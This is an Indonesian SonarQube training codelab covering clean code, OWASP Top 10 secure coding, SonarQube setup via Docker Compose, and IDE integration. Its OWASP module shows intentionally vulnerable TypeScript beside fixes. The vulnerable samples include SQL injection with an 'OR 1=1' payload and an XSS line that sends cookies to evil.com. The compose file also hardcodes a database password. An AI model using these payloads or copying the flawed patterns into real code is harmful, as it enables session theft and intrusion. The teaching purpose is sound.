<!--
=============================================================
  PANDUAN MAINTAINER — CARA GENERATE CODELAB INI
=============================================================

1. EXPORT CODELAB KE HTML (wajib setiap ada perubahan di .md)
   Jalankan dari folder codelabs/:

   .\claat.exe export sonarqube-training.md

   Output: folder sonarqube-training/ berisi index.html + assets.

2. GENERATE GAMBAR DARI MERMAID (jika ada perubahan diagram)
   Butuh: npm install -g @mermaid-js/mermaid-cli

   mmdc -i diagrams/architecture.mmd      -o img/architecture.png      -b white
   mmdc -i diagrams/scan-flow.mmd         -o img/scan-flow.png         -b white
   mmdc -i diagrams/cicd-flow.mmd         -o img/cicd-flow.png         -b white
   mmdc -i diagrams/triage-flow.mmd       -o img/triage-flow.png       -b white
   mmdc -i diagrams/workshop-setup.mmd    -o img/workshop-setup.png    -b white
   mmdc -i diagrams/roadmap.mmd           -o img/roadmap.png           -b white
   mmdc -i diagrams/devsecops-flow.mmd    -o img/devsecops-flow.png    -b white -w 1400

3. PREVIEW LOKAL (opsional)
   Butuh: npm install -g claat (atau gunakan claat.exe)

   .\claat.exe serve

   Akses http://localhost:9090 di browser.

4. URUTAN KERJA YANG DISARANKAN:
   a. Edit sonarqube-training.md
   b. Jika ada perubahan diagram → jalankan mmdc
   c. Jalankan claat export
   d. Cek hasilnya di folder sonarqube-training/index.html

=============================================================
-->
summary: Workshop hands-on SonarQube - dari instalasi sampai integrasi CI/CD. Pelajari cara meningkatkan kualitas kode dan keamanan aplikasi menggunakan SonarQube.
id: sonarqube-training
categories: DevSecOps
environments: Web
status: Published
feedback link: https://github.com/your-repo/issues
authors: Training Team
tags: sonarqube, code-quality, devsecops, sast

# SonarQube Training Workshop

## Tentang Workshop Ini
Duration: 5:00

### Selamat datang di SonarQube Training Workshop! 🎉

Dalam workshop ini, Anda akan mempelajari cara menggunakan **SonarQube** untuk meningkatkan kualitas kode dan keamanan aplikasi secara end-to-end.



### Yang akan Anda pelajari

- Memahami konsep Code Quality & Secure Coding
- Arsitektur dan komponen SonarQube
- Instalasi & konfigurasi SonarQube
- Menjalankan code scanning dan membaca hasilnya
- Memahami metrik & dashboard SonarQube
- Membuat Quality Gate & Quality Profile custom
- Integrasi SonarQube dengan CI/CD pipeline
- Security analysis & vulnerability management
- Best practice refactoring & code improvement
- Manajemen SonarQube untuk tim & organisasi

### Prerequisites

Pastikan tools berikut sudah terinstall di laptop Anda **sebelum workshop dimulai**:

- **VS Code** (versi terbaru)
- **Git** ([download](https://git-scm.com/downloads))
- **Node.js 18+** ([download](https://nodejs.org/)) - untuk sample project TypeScript
- **npm** (sudah include dengan Node.js)
- Akun **GitHub**
- Koneksi internet stabil

### Yang Akan Kita Install Saat Workshop

| Tool | Fungsi | Install Method |
|------|--------|----------------|
| **SonarQube for IDE** | Real-time code analysis di VS Code (dulu bernama SonarLint) | VS Code Extension |
| **SonarScanner** | Scan project ke SonarQube server | npm install |

### Akses SonarQube Server

SonarQube server sudah disiapkan. Anda tidak perlu install server sendiri - cukup scan dari laptop Anda.

| Info | Value |
|------|-------|
| **URL** | `http://sonar-training.duckdns.org` |
| **Username** | akan diberikan saat workshop |
| **Password** | akan diberikan saat workshop |

> aside positive
> Simpan URL dan credential di atas, Anda akan menggunakannya sepanjang workshop. Pastikan bisa mengakses URL tersebut dari browser Anda.

## Modul 1 - Apa itu Code Quality?
Duration: 15:00

### Mengapa Kualitas Kode Penting?

Bayangkan Anda mewarisi sebuah project dari developer sebelumnya. Apa yang Anda harapkan?

**Kode yang buruk = hutang teknis = waktu & biaya lebih besar di masa depan.**

### Contoh: Kode Buruk vs Kode Baik

❌ **Bad Code:**
```typescript
// Apa yang dilakukan fungsi ini?
function proc(d: any, t: any) {
  let r: any = [];
  for (let i = 0; i < d.length; i++) {
    if (d[i].t == t) {
      r.push(d[i]);
    }
  }
  return r;
}
```

✅ **Clean Code:**
```typescript
interface Product {
  name: string;
  type: string;
  price: number;
}

function filterProductsByType(products: Product[], type: string): Product[] {
  return products.filter(product => product.type === type);
}
```

### Perbedaan Utama

| Aspek | Bad Code | Clean Code |
|-------|----------|------------|
| Nama variabel | `d`, `t`, `r` | `products`, `type` |
| Type safety | `any` everywhere | Interface yang jelas |
| Readability | Harus tebak purpose | Self-documenting |
| Maintainability | Sulit diubah | Mudah dipahami & diubah |

### Clean Code Principles

1. **KISS** - Keep It Simple, Stupid
2. **DRY** - Don't Repeat Yourself
3. **SOLID** - Single responsibility, Open/closed, Liskov substitution, Interface segregation, Dependency inversion
4. **YAGNI** - You Ain't Gonna Need It

### Technical Debt

Technical Debt adalah "hutang" yang terjadi ketika kita memilih solusi cepat (shortcut) daripada solusi yang benar.

```
Hutang Teknis = Waktu yang Dihemat Sekarang × Bunga (maintenance cost) di Masa Depan
```

**Contoh technical debt:**
- Hardcoded configuration
- Copy-paste code (duplikasi)
- Tidak ada unit test
- Skip code review
- Workaround tanpa dokumentasi

> aside negative
> Seperti hutang finansial, technical debt memiliki **bunga**. Semakin lama dibiarkan, semakin mahal biaya untuk membayarnya.

### Quiz: Identifikasi Bad Practice

Lihat kode berikut, ada berapa masalah yang bisa Anda temukan?

```typescript
const password = "admin123"; // TODO: ganti nanti

function getUserData(id: any) {
  let connection = mysql.createConnection({
    host: "localhost",
    user: "root", 
    password: "root123"
  });
  
  let query = "SELECT * FROM users WHERE id = " + id;
  console.log("Running query: " + query);
  
  try {
    let result = connection.query(query);
    return result;
  } catch(e) {
    // do nothing
  }
}
```

> aside positive
> **Jawaban:** Minimal 6 masalah - hardcoded password, SQL injection, `any` type, console.log di production, empty catch block, koneksi tidak ditutup. Kita akan belajar mendeteksi semua ini secara otomatis dengan SonarQube!

## Modul 1b - OWASP Top 10 & Secure Coding
Duration: 15:00

### OWASP Top 10 (2021)

**OWASP** (Open Web Application Security Project) adalah komunitas non-profit yang fokus pada keamanan aplikasi web. Setiap beberapa tahun, mereka menerbitkan daftar **10 risiko keamanan web paling kritis** berdasarkan data nyata dari ribuan aplikasi di seluruh dunia.

Daftar ini menjadi **standar industri** — banyak regulasi (PCI-DSS, ISO 27001) dan framework keamanan mengacu pada OWASP Top 10 sebagai baseline minimum yang harus dipenuhi.

| # | Kategori | Singkat | Contoh Nyata |
|---|----------|---------|--------------|
| A01 | **Broken Access Control** | Kontrol akses tidak berfungsi | User biasa bisa akses endpoint `/admin` |
| A02 | **Cryptographic Failures** | Enkripsi lemah atau tidak ada | Password disimpan plain text di database |
| A03 | **Injection** | Input berbahaya dieksekusi | SQL Injection, XSS, Command Injection |
| A04 | **Insecure Design** | Desain sistem tidak aman sejak awal | Tidak ada rate limiting di endpoint login |
| A05 | **Security Misconfiguration** | Konfigurasi default atau salah | Debug mode aktif di production, CORS terlalu permisif |
| A06 | **Vulnerable & Outdated Components** | Library/framework usang dengan celah | Menggunakan library dengan CVE yang sudah dikenal |
| A07 | **Identification & Auth Failures** | Autentikasi mudah dibobol | Tidak ada lockout setelah brute force |
| A08 | **Software & Data Integrity Failures** | Update/data tidak diverifikasi | CI/CD pipeline mengeksekusi kode tanpa verifikasi |
| A09 | **Security Logging & Monitoring Failures** | Serangan tidak terdeteksi | Tidak ada audit log, alert tidak berfungsi |
| A10 | **Server-Side Request Forgery (SSRF)** | Server dimanipulasi untuk request internal | Fetch URL dari user input tanpa validasi |

### Penjelasan Detail Tiap Kategori

#### A01: Broken Access Control

Pengguna bisa melakukan aksi di luar izin yang seharusnya diberikan kepada mereka.

❌ **Vulnerable:**
```typescript
// Endpoint mengembalikan data user berdasarkan ID dari URL
// Tidak ada pengecekan apakah user yang login = pemilik data
app.get('/api/users/:id/profile', async (req, res) => {
  const user = await db.findUser(req.params.id);
  res.json(user);
});
// User dengan id=1 bisa akses /api/users/2/profile → data orang lain!
```

✅ **Secure:**
```typescript
app.get('/api/users/:id/profile', authMiddleware, async (req, res) => {
  // Pastikan yang request adalah pemilik data itu sendiri
  if (req.user.id !== parseInt(req.params.id)) {
    return res.status(403).json({ error: 'Forbidden' });
  }
  const user = await db.findUser(req.params.id);
  res.json(user);
});
```

#### A02: Cryptographic Failures

Data sensitif tidak dilindungi dengan enkripsi yang memadai.

❌ **Vulnerable:**
```typescript
// Password disimpan plain text
await db.query('INSERT INTO users (email, password) VALUES ($1, $2)', 
  [email, password]  // ← plain text!
);

// Atau hash yang lemah
import crypto from 'crypto';
const hash = crypto.createHash('md5').update(password).digest('hex'); // MD5 sudah tidak aman
```

✅ **Secure:**
```typescript
import bcrypt from 'bcrypt';

const SALT_ROUNDS = 12;
const hashedPassword = await bcrypt.hash(password, SALT_ROUNDS);
await db.query('INSERT INTO users (email, password) VALUES ($1, $2)', 
  [email, hashedPassword]
);
```

#### A03: Injection

Input dari user disisipkan ke query/perintah dan dieksekusi oleh sistem.

❌ **Vulnerable — SQL Injection:**
```typescript
const query = `SELECT * FROM users WHERE email = '${userInput}'`;
// Input: admin@test.com' OR 1=1 --
// Query jadi: SELECT * FROM users WHERE email = 'admin@test.com' OR 1=1 --'
// → mengembalikan SEMUA user!
```

✅ **Secure — Parameterized Query:**
```typescript
const query = `SELECT * FROM users WHERE email = $1`;
const result = await pool.query(query, [userInput]);
// Parameter tidak pernah dieksekusi sebagai SQL
```

> aside negative
> SQL Injection masuk kategori **A03** dan masih menjadi salah satu vulnerability paling sering ditemukan di aplikasi web. SonarQube dapat mendeteksi pola ini secara otomatis.

#### A03: Injection — Cross-Site Scripting (XSS)

Script berbahaya disuntikkan ke halaman web dan dieksekusi di browser user lain.

❌ **Vulnerable:**
```typescript
app.get('/search', (req, res) => {
  res.send(`<h1>Hasil pencarian: ${req.query.q}</h1>`);
  // Input: <script>document.location='http://evil.com?c='+document.cookie</script>
  // → Cookie user dikirim ke server penyerang!
});
```

✅ **Secure:**
```typescript
import { escape } from 'html-escaper';

app.get('/search', (req, res) => {
  const safeQuery = escape(req.query.q as string);
  res.send(`<h1>Hasil pencarian: ${safeQuery}</h1>`);
  // <script> menjadi &lt;script&gt; → tidak dieksekusi browser
});
```

#### A05: Security Misconfiguration

Sistem dikonfigurasi dengan cara yang tidak aman, seringkali karena menggunakan default.

❌ **Contoh konfigurasi berbahaya:**
```typescript
// CORS terlalu permisif — semua origin boleh akses
app.use(cors({ origin: '*' }));

// Error detail yang bocor ke client
app.use((err, req, res, next) => {
  res.status(500).json({ 
    error: err.message,
    stack: err.stack  // ← jangan tampilkan stack trace ke client!
  });
});

// Debug mode aktif di production
const app = express();
app.set('env', 'development'); // ← harus 'production' di production
```

✅ **Secure:**
```typescript
// CORS hanya izinkan domain yang diketahui
app.use(cors({ origin: ['https://myapp.com', 'https://admin.myapp.com'] }));

// Error handling tanpa detail internal
app.use((err: Error, req: Request, res: Response, next: NextFunction) => {
  console.error(err); // log detail di server saja
  res.status(500).json({ error: 'Internal server error' }); // generic message ke client
});
```

#### A06: Vulnerable & Outdated Components

Menggunakan library atau framework yang sudah memiliki celah keamanan yang diketahui publik (CVE).

```bash
# Cek vulnerability di dependencies project Node.js
npm audit

# Output contoh:
# 3 vulnerabilities (1 moderate, 2 high)
# 
# high severity vulnerability
# Package: lodash
# Dependency of: your-project
# Path: lodash
# More info: https://npmjs.com/advisories/1523
```

**Best practice:**
- Jalankan `npm audit` secara rutin (atau integrasikan ke CI/CD)
- Update dependency secara berkala
- Gunakan tools seperti **Dependabot** (GitHub) untuk update otomatis

#### A07: Identification & Authentication Failures

Mekanisme autentikasi yang lemah memungkinkan attacker mengambil alih akun.

❌ **Vulnerable:**
```typescript
// Tidak ada rate limiting → rentan brute force
app.post('/login', async (req, res) => {
  const user = await db.findByEmail(req.body.email);
  if (user && user.password === req.body.password) { // plain text comparison!
    res.json({ token: generateToken(user) });
  } else {
    res.status(401).json({ error: 'Invalid credentials' });
    // Tidak ada hitungan percobaan gagal
  }
});
```

✅ **Secure:**
```typescript
import rateLimit from 'express-rate-limit';
import bcrypt from 'bcrypt';

// Maksimal 5 percobaan login per 15 menit per IP
const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 5,
  message: 'Too many login attempts, please try again later'
});

app.post('/login', loginLimiter, async (req, res) => {
  const user = await db.findByEmail(req.body.email);
  const valid = user && await bcrypt.compare(req.body.password, user.password);
  if (valid) {
    res.json({ token: generateToken(user) });
  } else {
    res.status(401).json({ error: 'Invalid credentials' });
  }
});
```

#### A09: Security Logging & Monitoring Failures

Kejadian keamanan (login gagal, akses ditolak, error) tidak dicatat atau tidak dipantau.

❌ **Vulnerable:**
```typescript
app.post('/login', async (req, res) => {
  try {
    const user = await authenticate(req.body);
    res.json({ token: generateToken(user) });
  } catch (err) {
    // Tidak ada log → serangan brute force tidak terdeteksi
    res.status(401).json({ error: 'Invalid credentials' });
  }
});
```

✅ **Secure:**
```typescript
import logger from './logger'; // winston, pino, dll

app.post('/login', async (req, res) => {
  try {
    const user = await authenticate(req.body);
    logger.info('Login success', { userId: user.id, ip: req.ip });
    res.json({ token: generateToken(user) });
  } catch (err) {
    logger.warn('Login failed', { 
      email: req.body.email, 
      ip: req.ip, 
      userAgent: req.headers['user-agent']
    });
    res.status(401).json({ error: 'Invalid credentials' });
  }
});
```

### Secure Coding Mindset

Menghindari OWASP Top 10 bukan sekadar hafal daftarnya — perlu **pola pikir** yang berbeda saat menulis kode:

| Prinsip | Penjelasan | Contoh Penerapan |
|---------|------------|-----------------|
| **Never trust user input** | Semua input dari luar sistem dianggap berbahaya | Validasi & sanitize sebelum diproses |
| **Principle of Least Privilege** | Berikan akses minimum yang diperlukan | API key hanya read, bukan read+write |
| **Defense in Depth** | Jangan andalkan satu layer keamanan saja | Validasi di frontend DAN backend |
| **Fail Secure** | Saat error, jatuh ke kondisi yang aman | Deny by default jika otorisasi gagal |
| **Keep it Simple** | Kompleksitas adalah musuh keamanan | Hindari logika otorisasi yang rumit |
| **Security by Design** | Keamanan dipikirkan sejak awal, bukan ditambahkan belakangan | Threat modeling saat desain fitur |

> aside positive
> SonarQube dapat mendeteksi banyak vulnerability OWASP secara otomatis — terutama A03 (Injection), A02 (Cryptographic Failures), A07 (Hardcoded credentials), dan A05 (Security Misconfiguration). Kita akan melihat ini langsung di Modul 4 & 8.

## Modul 2 - Arsitektur & Komponen SonarQube
Duration: 10:00

### Apa itu SonarQube?

**SonarQube** adalah platform open-source untuk **continuous inspection** kualitas kode. SonarQube melakukan analisis statis (SAST) untuk mendeteksi:

- 🐛 **Bugs** - kode yang berpotensi error  
- 🔓 **Vulnerabilities** - celah keamanan  
- 😤 **Code Smells** - kode yang sulit di-maintain  
- 📋 **Duplications** - kode yang di-copy-paste  
- 📊 **Coverage** - persentase kode yang ditest  

### Arsitektur SonarQube



### Komponen Utama

| Komponen | Fungsi |
|----------|--------|
| **SonarQube Server** | Web UI, API, processing results |
| **Compute Engine** | Menganalisis kode dan menyimpan hasil |
| **Search Server** | Elasticsearch - untuk pencarian di UI |
| **Database** | Menyimpan konfigurasi, hasil scan, metrik |
| **SonarScanner** | Tool di sisi client untuk mengirim kode ke server |
| **SonarQube for IDE** | Plugin IDE untuk real-time feedback (dulu SonarLint) |

### Flow: Scan → Analyze → Report



### Quality Profile vs Quality Gate

| | Quality Profile | Quality Gate |
|-|----------------|--------------|
| **Apa** | Kumpulan **rules** yang digunakan saat scan | Kumpulan **threshold/kondisi** untuk pass/fail |
| **Contoh** | "Sonar Way" = 500+ rules aktif | Coverage ≥ 80%, 0 new bugs, 0 new vulnerabilities |
| **Analogi** | Daftar ujian yang harus diambil | Nilai minimum untuk lulus |
| **Kapan** | Saat scanning | Setelah scanning selesai |

### Perbandingan Edisi SonarQube

SonarQube tersedia dalam **4 edisi**. Memahami perbedaannya penting untuk memilih yang sesuai kebutuhan organisasi.

| Fitur | Community (Gratis) | Developer | Enterprise | Data Center |
|-------|:------------------:|:---------:|:----------:|:-----------:|
| **Harga** | Gratis / Open Source | Berbayar | Berbayar | Berbayar |
| **Bahasa dasar** (Java, JS/TS, Python, C#, Go, PHP, dll) | ✅ | ✅ | ✅ | ✅ |
| **Bahasa tambahan** (C, C++, Objective-C, Swift, ABAP, PL/SQL) | ❌ | ✅ | ✅ | ✅ |
| **Branch Analysis** (scan selain main branch) | ❌ | ✅ | ✅ | ✅ |
| **PR Decoration** (komentar otomatis di Pull Request) | ❌ | ✅ | ✅ | ✅ |
| **Taint Analysis** (deteksi data flow vulnerability) | ❌ | ✅ | ✅ | ✅ |
| **SonarQube for IDE Connected Mode** | Partial | ✅ Full | ✅ Full | ✅ Full |
| **Portfolio / Application View** | ❌ | ❌ | ✅ | ✅ |
| **Security Reports** (OWASP Top 10, CWE Top 25) | ❌ | ❌ | ✅ | ✅ |
| **Regulatory Reports** (PDF export) | ❌ | ❌ | ✅ | ✅ |
| **Parallel Report Processing** | ❌ | ❌ | ✅ | ✅ |
| **High Availability** (HA / redundancy) | ❌ | ❌ | ❌ | ✅ |

> aside positive
> **Untuk training ini kita menggunakan Community Edition** — sudah cukup untuk belajar dan untuk banyak tim development. Fitur utama yang "hilang" di Community adalah **Branch Analysis** dan **PR Decoration**, yang baru terasa penting saat sudah integrate ke CI/CD pipeline.

**Kapan perlu upgrade?**

| Kebutuhan | Edisi Minimum |
|-----------|---------------|
| Belajar / tim kecil / project personal | **Community** (gratis) |
| Scan PR otomatis + branch analysis | **Developer** |
| Laporan OWASP/CWE untuk audit/compliance | **Enterprise** |
| Organisasi besar, butuh HA & zero downtime | **Data Center** |

> aside negative
> **Jangan langsung beli edisi mahal.** Mulai dari Community, evaluasi apakah fitur gratisnya sudah cukup. Kebanyakan tim baru butuh upgrade ke Developer setelah pipeline CI/CD-nya sudah matang dan butuh scan per-branch/PR.

## Modul 3 - Setup Environment & Tools
Duration: 20:00

### Arsitektur Workshop Kita

Dalam workshop ini, kita menggunakan setup yang mirip dengan environment production:



> aside positive
> Server SonarQube untuk training ini **sudah disiapkan** oleh trainer. Anda cukup setup tools di laptop untuk mengikuti hands-on.

### Bagaimana SonarQube Di-deploy?

Bagian ini menjelaskan proses deploy SonarQube server dari nol menggunakan Docker Compose. Langkah-langkah di bawah digunakan untuk deploy di **VPS/server**, tapi Anda juga bisa **install di laptop sendiri** menggunakan Docker Desktop untuk eksperimen pribadi.

> aside positive
> **Ingin coba install sendiri?** Jika Anda sudah punya **Docker Desktop** (Windows/Mac) atau **Docker Engine** (Linux) di laptop, Anda bisa langsung loncat ke **Langkah 3** — buat `docker-compose.yml`, jalankan `docker compose up -d`, lalu akses `http://localhost:9000`. Tidak perlu VPS!

#### Prasyarat Server

SonarQube membutuhkan **minimal**:
- **VPS/Server**: 4 GB RAM, 2 vCPU, 30 GB SSD
- **OS**: Ubuntu 22.04 / 24.04 (recommended)
- **Docker** + **Docker Compose** terinstall

#### Langkah 1: Install Docker

```bash
# Tambahkan Docker repository
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/ubuntu/gpg \
  -o /etc/apt/keyrings/docker.asc

echo "deb [arch=$(dpkg --print-architecture) \
  signed-by=/etc/apt/keyrings/docker.asc] \
  https://download.docker.com/linux/ubuntu \
  $(. /etc/os-release && echo ${VERSION_CODENAME}) stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

# Install Docker Engine + Compose Plugin
sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io \
  docker-buildx-plugin docker-compose-plugin
```

#### Langkah 2: Konfigurasi Kernel

SonarQube menggunakan **Elasticsearch** secara internal, yang membutuhkan pengaturan kernel tertentu. **Tanpa ini, SonarQube akan crash saat startup.**

```bash
# Set kernel parameters (wajib untuk Elasticsearch)
sudo sysctl -w vm.max_map_count=524288
sudo sysctl -w fs.file-max=131072

# Persist setelah reboot
echo "vm.max_map_count=524288" | sudo tee -a /etc/sysctl.conf
echo "fs.file-max=131072" | sudo tee -a /etc/sysctl.conf
```

> aside negative
> **Kenapa `vm.max_map_count`?** Elasticsearch memetakan file ke memory (mmap). Default Linux hanya 65536, tapi Elasticsearch butuh minimal 262144. Kita set 524288 untuk headroom.

#### Langkah 3: Buat Docker Compose File

```bash
mkdir -p ~/sonarqube && cd ~/sonarqube
```

Buat file `docker-compose.yml` dengan isi berikut:

```yaml
services:
  sonarqube:
    image: sonarqube:lts-community
    container_name: sonarqube
    depends_on:
      db:
        condition: service_healthy
    ports:
      - "9000:9000"
    environment:
      SONAR_JDBC_URL: jdbc:postgresql://db:5432/sonarqube
      SONAR_JDBC_USERNAME: sonarqube
      SONAR_JDBC_PASSWORD: sonarqube_pass_2026
    volumes:
      - sonarqube_data:/opt/sonarqube/data
      - sonarqube_extensions:/opt/sonarqube/extensions
      - sonarqube_logs:/opt/sonarqube/logs
    ulimits:
      nofile:
        soft: 131072
        hard: 131072
      nproc:
        soft: 8192
        hard: 8192
    restart: unless-stopped

  db:
    image: postgres:16
    container_name: sonarqube_db
    environment:
      POSTGRES_USER: sonarqube
      POSTGRES_PASSWORD: sonarqube_pass_2026
      POSTGRES_DB: sonarqube
    volumes:
      - postgresql_data:/var/lib/postgresql/data
    healthcheck:
      test: ["CMD-SHELL", "pg_isready -U sonarqube"]
      interval: 10s
      timeout: 5s
      retries: 5
    restart: unless-stopped

volumes:
  sonarqube_data:
  sonarqube_extensions:
  sonarqube_logs:
  postgresql_data:
```

**Penjelasan komponen:**

| Service | Fungsi |
|---------|--------|
| **sonarqube** | Server utama SonarQube (web UI + compute engine + Elasticsearch). Menggunakan image `lts-community` (versi Long Term Support gratis). |
| **db** | PostgreSQL 16 sebagai database backend. Menyimpan konfigurasi, hasil analisis, metrics, dan history project. |

**Penjelasan konfigurasi penting:**

| Config | Penjelasan |
|--------|------------|
| `depends_on: condition: service_healthy` | SonarQube **menunggu** PostgreSQL benar-benar siap sebelum start, menghindari crash karena DB belum ready. |
| `SONAR_JDBC_URL` | Connection string JDBC agar SonarQube tahu cara connect ke PostgreSQL. |
| `volumes` | Data di-persist ke Docker volume, sehingga **data tidak hilang** saat container di-restart. |
| `ulimits` | Override limit OS di dalam container — wajib untuk Elasticsearch. |
| `healthcheck` | PostgreSQL melakukan self-check tiap 10 detik menggunakan `pg_isready`. |
| `restart: unless-stopped` | Container otomatis restart jika crash atau setelah server reboot. |

#### Langkah 4: Jalankan & Verifikasi

```bash
# Start semua container (background mode)
sudo docker compose up -d

# Cek status container
sudo docker compose ps

# Lihat log SonarQube (tunggu "SonarQube is operational")
sudo docker compose logs -f sonarqube
```

#### Langkah 5: Buka Firewall & Akses

```bash
sudo ufw allow OpenSSH
sudo ufw allow 9000/tcp
sudo ufw enable
```

Setelah itu, akses **http://IP-SERVER:9000** di browser. Login pertama kali dengan `admin` / `admin`, lalu ganti password.

> aside positive
> **Untuk DevOps/Infra engineer**: Panduan di atas bisa langsung Anda gunakan untuk deploy SonarQube di environment Anda (VPS, on-premise server, atau cloud VM).
>
> **Untuk Developer**: Jika hanya ingin coba-coba, cukup install Docker Desktop di laptop, copy `docker-compose.yml` di atas, dan jalankan `docker compose up -d`. SonarQube akan tersedia di `http://localhost:9000`.

### Step 1: Install SonarQube for IDE di VS Code

**SonarQube for IDE** (dulu bernama **SonarLint**) memberikan feedback kualitas kode **real-time** langsung di editor Anda - seperti spell-check, tapi untuk kode.

> aside negative
> **Catatan:** Extension ini sudah di-rebrand oleh SonarSource. Jika Anda mencari "SonarLint" di marketplace, Anda **tidak akan menemukannya**. Cari dengan kata kunci **"SonarQube"** sebagai gantinya.

1. Buka **VS Code**
2. Klik ikon **Extensions** (atau tekan `Ctrl+Shift+X`)
3. Cari: **SonarQube** 
4. Pilih **"SonarQube for IDE"** dari **SonarSource**
5. Klik **Install**
6. Restart VS Code jika diminta



Setelah install, extension langsung **aktif** dan akan menandai issue di editor Anda dengan garis bawah (squiggly line) - mirip seperti error TypeScript.

### Step 2: Install SonarScanner CLI

**SonarScanner** digunakan untuk mengirim kode dari laptop Anda ke SonarQube server untuk analisis lengkap.

**Install via npm (recommended):**
```bash
npm install -g sonarqube-scanner
```

**Verifikasi:**
```bash
sonar-scanner --version
```

Anda seharusnya melihat output seperti:
```
SonarScanner X.X.X
Java XX.X.X ...
```

> aside negative
> Jika error "sonar-scanner is not recognized", pastikan npm global bin ada di PATH. Coba tutup dan buka ulang terminal.

> aside negative
> **Khusus Windows - PowerShell Execution Policy Error:**
> Jika muncul error `"cannot be loaded because running scripts is disabled on this system"`, jalankan perintah ini di PowerShell terlebih dahulu:
> ```
> Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
> ```
> Ketik **Y** lalu Enter untuk konfirmasi. Setelah itu coba jalankan `sonar-scanner --version` lagi.
> 
> Ini terjadi karena Windows secara default memblokir eksekusi script `.ps1`. Perintah di atas mengizinkan script yang didownload (seperti sonar-scanner) untuk berjalan.

### Step 3: Akses SonarQube Server

1. Buka browser, navigasi ke: `http://sonar-training.duckdns.org`
2. Login dengan credential yang diberikan trainer
3. **Ganti password** jika diminta


### Step 4: Explore SonarQube UI

Setelah login, explore halaman utama:

| Menu | Fungsi |
|------|--------|
| **Projects** | Daftar semua project yang sudah di-scan |
| **Issues** | Semua issue yang ditemukan |
| **Rules** | Daftar semua rules yang tersedia |
| **Quality Profiles** | Kumpulan rules per bahasa |
| **Quality Gates** | Kondisi pass/fail |


### Step 5: Connect SonarQube for IDE ke SonarQube Server

Agar SonarQube for IDE di VS Code sinkron dengan rules di server:

1. Buka VS Code → **Settings** (Ctrl+,)
2. Cari: `sonarlint.connectedMode`
3. Atau edit `settings.json`, tambahkan:

```json
{
  "sonarlint.connectedMode.connections.sonarqube": [
    {
      "serverUrl": "http://sonar-training.duckdns.org",
      "token": "YOUR_TOKEN_HERE"
    }
  ]
}
```

4. Untuk generate token: Buka SonarQube → klik avatar → **My Account** → **Security** → **Generate Token**

